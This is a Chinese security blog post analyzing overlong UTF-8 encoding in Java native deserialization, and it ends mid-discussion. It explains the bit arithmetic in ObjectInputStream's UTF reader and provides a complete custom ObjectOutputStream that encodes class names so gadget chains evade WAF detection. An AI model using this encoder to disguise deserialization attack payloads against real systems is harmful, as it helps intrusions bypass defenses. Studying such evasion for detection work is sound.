# java 原生反序列化 OverlongEncoding 分析及实战 - 先知社区

java 原生反序列化 OverlongEncoding 分析及实战

- - -

## 0x 00 前言

在 waf 层面，检测反序列化攻击链一般是检测 cc，cb 等链的关键类，假如能把这些类编码，在服务端那边解码，就可将特征隐藏，但很多场景只能打没有编码的攻击链，因为服务端那边并没有解码或解密的逻辑。

群友 1ue 给出了解决方案。

比如 java.util.HashMap

可以用两个字节表示一个字母，比如 j 不仅可以表示为一个字节的 0x 6a

还可以表示为两个字节的，0xc1 和 0xaa。

这种将 1 个字节的字符，按照 UTF-8 编码方式强行编码成 2 位以上 UTF-8 字符的方法就是 Overlong Encoding。

既然有人已经发出 java 反序列化 Overlong Encoding，那为何要写这篇文章呢？

-   1ue 的文章写的比较简单，只是简单的说明存在这个问题，读完之后并不知道如何根据字符生成其对应的两个字节 b1，b2，虽然后面 p 神的文章中写明了一个字符如何拆分为 b1，b2，但其是从规范上来说的，代码上是否可能存在不按照这个规范也能将，一个字符拆分为 b1，b2 呢？一个字符拆分的 b1，b2 是不是固定的呢？
    
-   之前看代码也经常遇到进行位运算，并不知道有的地方为何会进行与，或，也不知道其运算是为了达到什么目的，写这篇文章也算是记录下自己的学习经验。
    
-   无论是 p 神还是 1ue，都没有给出一个字符拆分为 3 个字节的代码，以及该如何拆分。
    

## 0x 01 分析

随便用 ObjectInputStream 的 readObject 反序列化一个对象

直接来到 java.io.ObjectStreamClass#void readNonProxy(ObjectInputStream in) 方法，其读取关键类类名的方法就是 in.readUTF()

[](https://xzfile.aliyuncs.com/media/upload/picture/20240229102621-ed6e273e-d6a9-1.png)

这个 in.readUTF() 的核心逻辑就在 ObjectInputStream#void readNonProxy(ObjectInputStream in) 方法里面，读取关键类的逻辑在箭头所示方法里面，

[](https://xzfile.aliyuncs.com/media/upload/picture/20240229102629-f1d3879c-d6a9-1.png)

这两个方法有个很有意思的地方，他会将读取到的字节& 0xFF 后右移四位来判断读 1 个字节还是 2 个字节还是 3 个字节，以 readUTFSpan 为例

**问题：几个字节表示一个字符是由什么决定的**

箭头所示 1,2,3 分别对应 1,2,3 个字节表示一个字符的读取逻辑。

至于为何 buf\[pos++\] & 0xFF 要& 0xFF，我猜测应该是只取 8 个字节，因为 0xff 只表示二进制的 1111 1111，超过 8 个字节的部分与运算之后都会变为 0

[](https://xzfile.aliyuncs.com/media/upload/picture/20240229102637-f70f4278-d6a9-1.png)

### 一个字节表示一个字符

1 个字节表示一个字符很简单，就是读取到 0x 6a 就表示 j

### 两个字节表示一个字符

**b1 前三位固定为 110**

2 个字节表示一个字符，b1 右移 4 位后为 12 或 13

对应的二进制分别为

12： 00001100

13： 00001101

逆推回去，原有的第一个字节 b1 前四位只能是 1100 或 1101，也就是第一个字节前三位固定为 110

**b2 前两位固定 10**

由图可知，b2&0xc0 要等于 0x 80

[](https://xzfile.aliyuncs.com/media/upload/picture/20240229102647-fca87d1c-d6a9-1.png)

0x c0 : 11000000

0x 80 10000000

所以 b2 前两位必须为 10

**b1 的最后两位是字符的前两位，b2 的后六位是字符的后六位**

[](https://xzfile.aliyuncs.com/media/upload/picture/20240229102653-008088ee-d6aa-1.png)

b1 和 b2 进行如下运算得到字符的值

```plain
(char) (((b1 & 0x1F) << 6) |((b2 & 0x3F) << 0));
```

b1 & 0x1F：去掉 b1 前缀 110

0x1f 的二进制如下，与运算 0x1f，会导致 b1 的前三位变为 0（前三位 110），后五位不变

0x1f: 00011111

b2 & 0x3F：去掉 b2 前缀 10

0x3f 的二进制如下，与运算 0x3f，会导致 b2 的前两位变为 0（前两位 10），后 6 位不变

0x 3f: 00111111

明白了他们位运算的意义，再看这个获取字符的运算，

```plain
(char) (((b1 & 0x1F) << 6) |((b2 & 0x3F) << 0));
```

是不是很容易就能得出以下结论

**字符的组成**

b1 的最后两位 +b2 的后 6 位

**b1 的组成如下**

110 +3 位 + 字符的前两位

**b2 的组成如下**

10+ 字符的后六位

如此 b2 就确定了，字符的后六位固定，b2 的前两位只能是 10，也就是 b2 是固定的。

但 b1 中间 3 位好像可以随便写，但事实真是如此吗？

比如两个字节表示一个字符 o

字符 o：01101111

根据上述规律可以得出 b1，b2

b1:110+3 位 +01

b2: 10101111 0xaf

既然随便取，b1 三位假定为 100

则 b1 为

b1: 11010001 0xd1

之后通过 b1，b2 还原字符，

首先 b1 的运算，(b1 & 0x1F) << 6

```plain
int b1=0xd1;
        System.out.println(Integer.toBinaryString((b1 & 0x1F) << 6));
```

b1 & 0x1F 后

00010001

之后左移会发现一个很神奇的现象，他并不截断

左移 6 位并不是我们想象中的

01000000

而是

10001000000

根据结果可知它左移并没有把 1 截断，只是在后面加 0，经过群友解答，原来是 int 长度不截断的，查看源码可知，b1，b2，b3 均为 int

[](https://xzfile.aliyuncs.com/media/upload/picture/20240229102705-07621c2c-d6aa-1.png)

(b1 & 0x1F) << 6 后得到的数前两位必须为字母的前两位，

由于字母在 0 到 127 里面，所以字母最左边第一位必须为 0

[](https://xzfile.aliyuncs.com/media/upload/picture/20240229102846-43d35f54-d6aa-1.png)

由于 b1 是 int 类型不能截断，b1 & 0x1F 后左移 6 位，要想得到的数第一位为 0，b1 的那 3 位必须都是 0。  
所以对于两个字节表示一个字母来说，b1 也是固定的。

### 三个字节表示一个字符

看下如何才能进入三个字节表示一个字符的逻辑，从 1 处可知，b1 右移四位后要等于 14，也就是 b1 的前四位需要为 1110。

2 处为判断 b2，b3 前两位是否为 10（虽然旁边有注释，但我认为还是得看一下，避免代码不严谨存在其它的编码情况）。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240229102859-4baa1e16-d6aa-1.png)

之后就是 b1，b2，b3 运算得出字符的逻辑啦

```plain
cbuf[cpos++] = (char) (((b1 & 0x0F) << 12) |((b2 & 0x3F) << 6) |((b3 & 0x3F) << 0));
```

b1 & 0x0F：去除 b1 前缀 1110

b2 & 0x3F : 去除 b2 前缀 10

b3 & 0x3F：去除 b3 前缀 10

我们可以看到，

b1 去除前缀后是左移 12 位

b2 去除前缀后是左移 6 位

b3 去除前缀后是不移动。

所以字符的后六位必定是 b3。

由于字母是在 0 到 127 里面，所以最左边的第一位必定为 0

由于 b1，b2，b3 去除前缀移位后是或运算，所以 b1，b2 移位后第一位必须为 0。

再由于 int 移位不能截断，所以 b1 只能是前缀 +0000

于是 b1 固定了

b1 11100000

b3 也固定了

b3 10+ 字符后六位

那么字符前两位必定在 b2 里面，看看 b2 是左移 6 位。

所以可以推出 b2 的组成为

b2 100000+ 字符前两位

为了方便里面，以下举一个例子

用 b1，b2，b3 表示字符 j

字符 j 01101010

b1 11100000

b2 10000001

b3 10101010

## 0x 02 添加 Overlong Encoding

既然这东西这么好用，那如何为自己开发的工具添加呢？

首先想到的当然是将生成好的反序列化攻击链的字符串进行文本替换，将里面关键类的全类名替换为 Overlong Encoding 表示的显示，但是感觉过于暴力，替换过程中还要考虑会不会将一些非类名的东西替换，导致结构被破坏。  
我认为这里比较好的思路是自定义类，实现其序列化逻辑。

首先我们得要找到那个类将类名写入流的，之后我们改改，让其写入 Overlong Encoding 表示的字符。

经过 debug 发现，我们需要的类就是 java.io.ObjectStreamClass#void writeNonProxy(ObjectOutputStream out) throws IOException

[](https://xzfile.aliyuncs.com/media/upload/picture/20240229102911-52875730-d6aa-1.png)

但是直接写这个类有点麻烦，毕竟序列化用的是 ObjectOutputStream

看看是谁调用了这个方法，往前一步，发现 writeClassDescriptor 方法调用 writeNonProxy 方法，而 writeClassDescriptor 正好是 ObjectOutputStream 的方法。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240229102917-565879f2-d6aa-1.png)

接下来就简单了，我们继承 ObjectOutputStream，重写 writeClassDescriptor 方法，在 writeClassDescriptor 方法中实现 desc.writeNonProxy(this) 方法的逻辑和将类名 Overlong Encoding 的逻辑，具体操作的话就是直接将 desc.writeNonProxy(this) 方法的逻辑复制进去，缺少的属性可以通过反射获取，缺少的方法可以通过反射调用，之后在里面加上 Overlong Encoding 的逻辑就可以啦。

这里贴上我的代码

```plain
import java.io.*;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationTargetException;
import java.lang.reflect.Method;
import java.util.HashMap;
import java.util.Map;
/**
 * 参考 p 神：https://mp.weixin.qq.com/s/fcuKNfLXiFxWrIYQPq7OCg
 * 参考 1ue：https://t.zsxq.com/17LkqCzk8
 * 实现：参考 OObjectOutputStream# protected void writeClassDescriptor(ObjectStreamClass desc) 方法
 */
public class CustomObjectOutputStream extends ObjectOutputStream {

    public CustomObjectOutputStream(OutputStream out) throws IOException {
        super(out);
    }

    private static HashMap<Character, int[]> map;
    private static Map<Character,int[]> bytesMap=new HashMap<>();

    static {
        map = new HashMap<>();
        map.put('.', new int[]{0xc0, 0xae});
        map.put(';', new int[]{0xc0, 0xbb});
        map.put('$', new int[]{0xc0, 0xa4});
        map.put('[', new int[]{0xc1, 0x9b});
        map.put(']', new int[]{0xc1, 0x9d});
        map.put('a', new int[]{0xc1, 0xa1});
        map.put('b', new int[]{0xc1, 0xa2});
        map.put('c', new int[]{0xc1, 0xa3});
        map.put('d', new int[]{0xc1, 0xa4});
        map.put('e', new int[]{0xc1, 0xa5});
        map.put('f', new int[]{0xc1, 0xa6});
        map.put('g', new int[]{0xc1, 0xa7});
        map.put('h', new int[]{0xc1, 0xa8});
        map.put('i', new int[]{0xc1, 0xa9});
        map.put('j', new int[]{0xc1, 0xaa});
        map.put('k', new int[]{0xc1, 0xab});
        map.put('l', new int[]{0xc1, 0xac});
        map.put('m', new int[]{0xc1, 0xad});
        map.put('n', new int[]{0xc1, 0xae});
        map.put('o', new int[]{0xc1, 0xaf});
        map.put('p', new int[]{0xc1, 0xb0});
        map.put('q', new int[]{0xc1, 0xb1});
        map.put('r', new int[]{0xc1, 0xb2});
        map.put('s', new int[]{0xc1, 0xb3});
        map.put('t', new int[]{0xc1, 0xb4});
        map.put('u', new int[]{0xc1, 0xb5});
        map.put('v', new int[]{0xc1, 0xb6});
        map.put('w', new int[]{0xc1, 0xb7});
        map.put('x', new int[]{0xc1, 0xb8});
        map.put('y', new int[]{0xc1, 0xb9});
        map.put('z', new int[]{0xc1, 0xba});
        map.put('A', new int[]{0xc1, 0x81});
        map.put('B', new int[]{0xc1, 0x82});
        map.put('C', new int[]{0xc1, 0x83});
        map.put('D', new int[]{0xc1, 0x84});
        map.put('E', new int[]{0xc1, 0x85});
        map.put('F', new int[]{0xc1, 0x86});
        map.put('G', new int[]{0xc1, 0x87});
        map.put('H', new int[]{0xc1, 0x88});
        map.put('I', new int[]{0xc1, 0x89});
        map.put('J', new int[]{0xc1, 0x8a});
        map.put('K', new int[]{0xc1, 0x8b});
        map.put('L', new int[]{0xc1, 0x8c});
        map.put('M', new int[]{0xc1, 0x8d});
        map.put('N', new int[]{0xc1, 0x8e});
        map.put('O', new int[]{0xc1, 0x8f});
        map.put('P', new int[]{0xc1, 0x90});
        map.put('Q', new int[]{0xc1, 0x91});
        map.put('R', new int[]{0xc1, 0x92});
        map.put('S', new int[]{0xc1, 0x93});
        map.put('T', new int[]{0xc1, 0x94});
        map.put('U', new int[]{0xc1, 0x95});
        map.put('V', new int[]{0xc1, 0x96});
        map.put('W', new int[]{0xc1, 0x97});
        map.put('X', new int[]{0xc1, 0x98});
        map.put('Y', new int[]{0xc1, 0x99});
        map.put('Z', new int[]{0xc1, 0x9a});


        bytesMap.put('$', new int[]{0xe0,0x80,0xa4});
        bytesMap.put('.', new int[]{0xe0,0x80,0xae});
        bytesMap.put(';', new int[]{0xe0,0x80,0xbb});
        bytesMap.put('A', new int[]{0xe0,0x81,0x81});
        bytesMap.put('B', new int[]{0xe0,0x81,0x82});
        bytesMap.put('C', new int[]{0xe0,0x81,0x83});
        bytesMap.put('D', new int[]{0xe0,0x81,0x84});
        bytesMap.put('E', new int[]{0xe0,0x81,0x85});
        bytesMap.put('F', new int[]{0xe0,0x81,0x86});
        bytesMap.put('G', new int[]{0xe0,0x81,0x87});
        bytesMap.put('H', new int[]{0xe0,0x81,0x88});
        bytesMap.put('I', new int[]{0xe0,0x81,0x89});
        bytesMap.put('J', new int[]{0xe0,0x81,0x8a});
        bytesMap.put('K', new int[]{0xe0,0x81,0x8b});
        bytesMap.put('L', new int[]{0xe0,0x81,0x8c});
        bytesMap.put('M', new int[]{0xe0,0x81,0x8d});
        bytesMap.put('N', new int[]{0xe0,0x81,0x8e});
        bytesMap.put('O', new int[]{0xe0,0x81,0x8f});
        bytesMap.put('P', new int[]{0xe0,0x81,0x90});
        bytesMap.put('Q', new int[]{0xe0,0x81,0x91});
        bytesMap.put('R', new int[]{0xe0,0x81,0x92});
        bytesMap.put('S', new int[]{0xe0,0x81,0x93});
        bytesMap.put('T', new int[]{0xe0,0x81,0x94});
        bytesMap.put('U', new int[]{0xe0,0x81,0x95});
        bytesMap.put('V', new int[]{0xe0,0x81,0x96});
        bytesMap.put('W', new int[]{0xe0,0x81,0x97});
        bytesMap.put('X', new int[]{0xe0,0x81,0x98});
        bytesMap.put('Y', new int[]{0xe0,0x81,0x99});
        bytesMap.put('Z', new int[]{0xe0,0x81,0x9a});
        bytesMap.put('[', new int[]{0xe0,0x81,0x9b});
        bytesMap.put(']', new int[]{0xe0,0x81,0x9d});
        bytesMap.put('a', new int[]{0xe0,0x81,0xa1});
        bytesMap.put('b', new int[]{0xe0,0x81,0xa2});
        bytesMap.put('c', new int[]{0xe0,0x81,0xa3});
        bytesMap.put('d', new int[]{0xe0,0x81,0xa4});
        bytesMap.put('e', new int[]{0xe0,0x81,0xa5});
        bytesMap.put('f', new int[]{0xe0,0x81,0xa6});
        bytesMap.put('g', new int[]{0xe0,0x81,0xa7});
        bytesMap.put('h', new int[]{0xe0,0x81,0xa8});
        bytesMap.put('i', new int[]{0xe0,0x81,0xa9});
        bytesMap.put('j', new int[]{0xe0,0x81,0xaa});
        bytesMap.put('k', new int[]{0xe0,0x81,0xab});
        bytesMap.put('l', new int[]{0xe0,0x81,0xac});
        bytesMap.put('m', new int[]{0xe0,0x81,0xad});
        bytesMap.put('n', new int[]{0xe0,0x81,0xae});
        bytesMap.put('o', new int[]{0xe0,0x81,0xaf});
        bytesMap.put('p', new int[]{0xe0,0x81,0xb0});
        bytesMap.put('q', new int[]{0xe0,0x81,0xb1});
        bytesMap.put('r', new int[]{0xe0,0x81,0xb2});
        bytesMap.put('s', new int[]{0xe0,0x81,0xb3});
        bytesMap.put('t', new int[]{0xe0,0x81,0xb4});
        bytesMap.put('u', new int[]{0xe0,0x81,0xb5});
        bytesMap.put('v', new int[]{0xe0,0x81,0xb6});
        bytesMap.put('w', new int[]{0xe0,0x81,0xb7});
        bytesMap.put('x', new int[]{0xe0,0x81,0xb8});
        bytesMap.put('y', new int[]{0xe0,0x81,0xb9});
        bytesMap.put('z', new int[]{0xe0,0x81,0xba});

    }


    public void charWritTwoBytes(String name){
        //将name进行overlong Encoding
        byte[] bytes=new byte[name.length() * 2];
        int k=0;
        StringBuffer str=new StringBuffer();
        for (int i = 0; i < name.length(); i++) {
            int[] bs = map.get(name.charAt(i));
            bytes[k++]= (byte) bs[0];
            bytes[k++]= (byte) bs[1];
            str.append(Integer.toHexString(bs[0])+",");
            str.append(Integer.toHexString(bs[1])+",");
        }
        System.out.println(str.toString());
        try {
            writeShort(name.length() * 2);
            write(bytes);
        } catch (IOException e) {
            throw new RuntimeException(e);
        }

    }
    public void charWriteThreeBytes(String name){
        //将name进行overlong Encoding
        byte[] bytes=new byte[name.length() * 3];
        int k=0;
        StringBuffer str=new StringBuffer();
        for (int i = 0; i < name.length(); i++) {
            int[] bs = bytesMap.get(name.charAt(i));
            bytes[k++]= (byte) bs[0];
            bytes[k++]= (byte) bs[1];
            bytes[k++]= (byte) bs[2];
            str.append(Integer.toHexString(bs[0])+",");
            str.append(Integer.toHexString(bs[1])+",");
            str.append(Integer.toHexString(bs[2])+",");
        }
        System.out.println(str.toString());
        try {
            writeShort(name.length() * 3);
            write(bytes);
        } catch (IOException e) {
            throw new RuntimeException(e);
        }
    }


    protected void writeClassDescriptor(ObjectStreamClass desc)
            throws IOException {
        String name = desc.getName();
        boolean externalizable = (boolean) getFieldValue(desc, "externalizable");
        boolean serializable = (boolean) getFieldValue(desc, "serializable");
        boolean hasWriteObjectData = (boolean) getFieldValue(desc, "hasWriteObjectData");
        boolean isEnum = (boolean) getFieldValue(desc, "isEnum");
        ObjectStreamField[] fields = (ObjectStreamField[]) getFieldValue(desc, "fields");
        System.out.println(name);
        //写入name（jdk原生写入方法）
//        writeUTF(name);
        //写入 name(两个字节表示一个字符)
//        charWritTwoBytes(name);
        //写入 name(三个字节表示一个字符)
        charWriteThreeBytes(name);


        writeLong(desc.getSerialVersionUID());
        byte flags = 0;
        if (externalizable) {
            flags |= ObjectStreamConstants.SC_EXTERNALIZABLE;
            Field protocolField =
                    null;
            int protocol;
            try {
                protocolField = ObjectOutputStream.class.getDeclaredField("protocol");
                protocolField.setAccessible(true);
                protocol = (int) protocolField.get(this);
            } catch (NoSuchFieldException e) {
                throw new RuntimeException(e);
            } catch (IllegalAccessException e) {
                throw new RuntimeException(e);
            }
            if (protocol != ObjectStreamConstants.PROTOCOL_VERSION_1) {
                flags |= ObjectStreamConstants.SC_BLOCK_DATA;
            }
        } else if (serializable) {
            flags |= ObjectStreamConstants.SC_SERIALIZABLE;
        }
        if (hasWriteObjectData) {
            flags |= ObjectStreamConstants.SC_WRITE_METHOD;
        }
        if (isEnum) {
            flags |= ObjectStreamConstants.SC_ENUM;
        }
        writeByte(flags);

        writeShort(fields.length);
        for (int i = 0; i < fields.length; i++) {
            ObjectStreamField f = fields[i];
            writeByte(f.getTypeCode());
            writeUTF(f.getName());
            if (!f.isPrimitive()) {
                invoke(this, "writeTypeString", f.getTypeString());
            }
        }
    }

    public static void invoke(Object object, String methodName, Object... args) {
        Method writeTypeString = null;
        try {
            writeTypeString = ObjectOutputStream.class.getDeclaredMethod(methodName, String.class);
            writeTypeString.setAccessible(true);
            try {
                writeTypeString.invoke(object, args);
            } catch (IllegalAccessException e) {
                throw new RuntimeException(e);
            } catch (InvocationTargetException e) {
                throw new RuntimeException(e);
            }
        } catch (NoSuchMethodException e) {
            throw new RuntimeException(e);
        }
    }

    public static Object getFieldValue(Object object, String fieldName) {
        Class<?> clazz = object.getClass();
        Field field = null;
        Object value = null;
        try {
            field = clazz.getDeclaredField(fieldName);
            field.setAccessible(true);
            value = field.get(object);
        } catch (NoSuchFieldException e) {
            throw new RuntimeException(e);
        } catch (IllegalAccessException e) {
            throw new RuntimeException(e);
        }
        return value;
    }
}
```

其中 map 存储的的两个字节表示一个字符的对应关系

bytesMap 存储的是三个字节表示一个字符的对应关系

如果想改变编码方式，只需将对应的注释去掉既可，1 是无编码的，2 是两个字节表示一个字符的编码方式，3 是三个字节表示一个字符的编码方式。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240229102931-5eda747c-d6aa-1.png)

看到这里可能会有疑惑，那么多字母和符号和多个字节的对应关系的 map 是怎么搞的呢

